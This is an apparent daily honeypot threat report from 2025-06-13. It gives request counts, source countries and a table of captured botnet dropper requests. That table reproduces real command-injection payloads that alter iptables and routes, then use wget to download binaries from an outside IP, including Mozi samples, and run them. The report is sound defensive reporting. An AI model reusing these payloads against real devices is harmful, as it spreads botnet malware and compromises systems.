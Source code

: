 ```yaml
---
title: "Report: 2025-06-13 "
date: 2025-06-13
desciption: "Report: 2025-06-13" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-13 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 478 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1956 requests were recorded during the day, originating from 6 different countries, with a peak of 888 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| IN               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.83    | GET /shell?cd+/tmp;iptables+-I+INPUT+-p+tcp+-s+141.98.11.147+--dport+5500+-j+ACCEPT;+iptables+-I+INPUT+-p+tcp+--dport+5500+-j+DROP;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm4;chmod+777+*;./arm4+arm4;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm5;chmod+777+*;./arm5+arm5 HTTP/1.1                                                                                                                                                                                                                                    |
| 141.98.11.147   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3Bsh%20-c%20%22route%20add%20-host%20141.98.11.147%20reject%3B%20route%20add%20-host%20141.98.11.147%20gw%20141.98.11.147%22%3B%20wget%20http%3A%2F%2F94.26.90.251%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                  |
| 117.193.140.221 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 122.97.212.198  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |